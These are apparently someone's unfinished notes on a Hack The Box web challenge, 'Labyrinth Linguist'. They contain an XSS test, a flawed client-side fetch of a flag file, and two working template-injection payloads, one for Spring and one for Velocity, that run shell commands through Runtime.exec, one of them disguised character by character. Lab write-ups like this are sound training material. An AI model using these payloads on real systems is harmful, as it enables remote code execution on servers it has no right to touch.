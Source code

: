 # Labyrinth-Linguist

## FLAG: HTB{}

## Status: Incomplete

+ DOCKER: Yes
+ DOWNLOADABLE: Yes

Description: You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## NOTES

1. Spawn Docker
   1. IP: 94.237.49.14
   2. PORT: 32361
2. Extract files
   1. > unzip web_labyrinth_linguist.zip
3. HTTP
   1. Navigate to website and inspect
   2. Here we have an input form that looks to translate from english to voxalith
   3. TEST
      1. Lets try sending through hello world
         1. Inspecting the code we see
            1. <h2 class="fire">hello world</h2>
            2. So maybe we can abuse XSS and inject our own script
      2. XSS Test
         1. Input <script>alert(1);</script>
         2. Submit -> success we get an alert popup, so now how do we get the flag from here
4. Examine Code
   1. Looking at the file structure and code we see that the flag is up two directories
   2. But we also see that the code is build on JAVA so maybe we can do some java template injection
5. EXPLOIT
   1. So lets try and use the fetch() function in javascript to get the flag

```js
fetch('../../flag.txt')
    .then(function (response) {
    return response.text();
    })
    .then(function (json) {
    console.log(json);
    });
```


Spring
```js
    ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(102)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Velocity
```js
    #set($str=$class.inspect("java.lang.String").type)
    #set($chr=$class.inspect("java.lang.Character").type)
    #set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
    #set($out=$ex.getInputStream())
    #foreach($i in [1..$out.available()])
    $str.valueOf($chr.toChars($out.read()))
    #end
```